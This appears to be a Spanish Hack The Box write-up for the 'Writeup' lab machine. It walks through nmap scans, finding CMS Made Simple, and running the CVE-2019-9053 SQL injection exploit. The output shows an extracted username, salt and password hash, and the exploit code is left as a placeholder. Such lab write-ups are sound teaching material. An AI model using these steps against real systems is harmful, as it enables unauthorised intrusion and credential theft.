 # 🕵️‍♂️ Reconocimiento

Comenzamos con el escaneo de puertos utilizando `nmap`:

```bash
nmap -p- --open -sS -Pn -vvv -n --min-rate 5000 10.10.10.138 -oG allports
nmap -sCV -p80,22 10.10.10.138
```

![[Writeup1.png]]

El resultado indica que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.  
Esto nos permite acceder a:

- Página principal: [http://10.10.10.138/](http://10.10.10.138/)
- Archivo `robots.txt`: [http://10.10.10.138/robots.txt](http://10.10.10.138/robots.txt)

Al entrar a la página principal vemos que tiene una protección anti-DDoS que bloquea la enumeración.  
Probamos fuzzing con `ffuf` y `gobuster`, pero no obtuvimos resultados útiles.

![[Writeup2.png]]

Sin embargo, al ingresar a `robots.txt` encontramos una ruta interesante:

- [http://10.10.10.138/writeup/](http://10.10.10.138/writeup/)

![[Writeup3.png]]

Al inspeccionar el código fuente del sitio `/writeup`, vemos que el CMS utilizado es **CMS Made Simple**.  
El pie de página indica un copyright de 2004–2019, lo que sugiere que podría estar usando una versión antigua (potencialmente vulnerable).

![[Writeup4.png]]

---

# 🔍 Búsqueda de vulnerabilidades

Buscamos en `searchsploit`:

```bash
searchsploit CMS Made Simple
```

Encontramos una vulnerabilidad de **inyección SQL no autenticada** en la versión **2.2.10** (CVE-2019-9053).

![[Writeup5.png]]

La copiamos con:

```bash
searchsploit -m php/webapps/46635.py
```

Al ejecutar el exploit en **Python 2.7** tuvimos errores con el módulo `termcolor`, así que convertimos el script a **Python 3** usando ChatGPT.

---

# 🐍 Exploit en Python 3

Guardamos el siguiente código como `exploit.py`:

```python
# (Pegar aquí el código completo convertido a Python 3 que ya tenés)
```

Ejecutamos el script con:

```bash
python3 exploit.py -u http://10.10.10.138/writeup/ -w /usr/share/wordlists/rockyou.txt
```

> El parámetro `-u` es para la URL objetivo y `-w` es para el diccionario de palabras.  
> Tuvimos que modificar la variable `TIME = 1` a `TIME = 2` para evitar falsos positivos.

![[Writeup6.png]]

---

# 🧂 Resultado del exploit

El exploit extrae la siguiente información:

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

---

# 📚 Créditos

Se utilizó ayuda de los siguientes recursos:

- [Video oficial de la máquina](https://www.youtube.com/watch?v=sG7_MYqAcu0)
- Writeup en PDF de HackTheBox:  
  `file:///C:/Users/guido/Downloads/Writeup-2.pdf`
